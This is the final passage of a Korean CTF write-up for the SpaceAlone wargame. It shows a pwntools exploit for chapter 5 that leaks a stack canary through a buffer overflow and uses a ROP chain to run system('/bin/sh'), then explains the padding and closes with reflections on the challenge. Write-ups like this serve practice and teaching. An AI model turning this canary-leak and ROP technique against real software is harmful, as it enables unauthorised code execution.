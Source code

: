 ```python
# ROP
p.recvuntil(b'Incorrect code. Try again.\n')
p.sendafter(b'Username: ', b'A' * 64)

payload = b'A' * 56
payload += p64(canary)
payload += b'B' * 8
payload += p64(0x401981)
p.sendafter(b"Password: ", payload)

p.interactive()
```
제가 작성한 최종 페이로드는 위와 같습니다.

Username이 0x80, Password는 0x40부터 위치했기에 0x40 즉 64바이트만큼의 크기가 존재해서 Username 크기만 딱 덮으면 중간에 널바이트가 껴서 카나리가 출력되지 않을 수 있어서 전부 채워줬고, Password는 카나리의 널바이트까지만 덮어서 카나리까지 출력이 될 수 있도록 57바이트 크기만큼 패딩을 해줬습니다.

이후 패딩한 A를 제외하고 제외했던 널바이트를 추가해서 카나리를 leak하고, 
그 다음 실행에서 Username 똑같이 입력하고, Password 부분에서 ROP를 통해서 system(”/bin/sh”)을 실행하도록 만들어줬습니다.

해당 페이로드를 실행하고 Username과 Password 입력을 한 번씩 더 실패하고 30초를 기다리면, 쉘이 정상적으로 따지는 모습을 확인할 수 있고, status를 입력하면 stage6으로 향하는 pw를 얻을 수 있었습니다.

<img src="/assets/img/SpaceAloneMacOS/34.png" alt="chapter5_ex" width="70%" style="display: block; margin: 0 auto;">
페이로드는 생각보다 간단했지만, 코드 분석이 생각보다 중요한 재밌는 문제였습니다.

## 마무리
---
저는 이번 SpaceAlone을 chapter 1~5까지만 풀어보며 writeup을 작성했습니다. <br>
각각의 문제가 기법이나 페이로드가 엄청나게 복잡하지는 않지만, 코드나 풀이의 방향성이 다른 문제들과는 달리 참신하고 재밌었던 것 같아서 좋았습니다.

전반적으로 문제를 정말 재밌게 만들어주신 것 같아 많은 분들이 풀어보시면, 초보자 분들은 기법을 익히는 기회가, 중급자 분들은 기법에 익숙해지는 기회가, 고수 분들에게는 재밌게 문제를 풀며 게임을 하는 듯한 기분을 느낄 수 있을 것이라는 생각이 들었습니다.

또한 챕터별로 존재하는 이스터에그 같은 스토리들도 생각보다 재밌었습니다!

문제를 만들어주신 모든 분들 정말 수고 많으셨다는 말씀드리며 글을 마치겠습니다.

긴 글을 읽어주셔서 감사합니다.